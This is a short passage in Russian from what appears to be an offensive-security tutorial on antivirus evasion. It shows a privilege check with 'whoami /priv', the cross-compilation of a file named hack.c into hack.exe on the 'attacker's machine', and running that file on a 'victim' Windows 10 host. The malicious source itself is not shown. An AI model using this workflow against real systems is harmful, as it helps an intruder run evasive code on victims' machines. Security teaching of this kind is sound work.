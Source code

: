 Также проверим текущие привилегии:     

```powershell
whoami /priv
```

![av-evasion](./images/101/2023-06-20_23-09_2.png){width="80%"}      

Компилируем `hack.c` на машине атакующего:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](./images/101/2023-06-20_23-16.png){width="80%"}      

Затем запускаем на машине жертвы (`Windows 10 x64 1903` в моем случае):     

```powershell
.\hack.exe
```
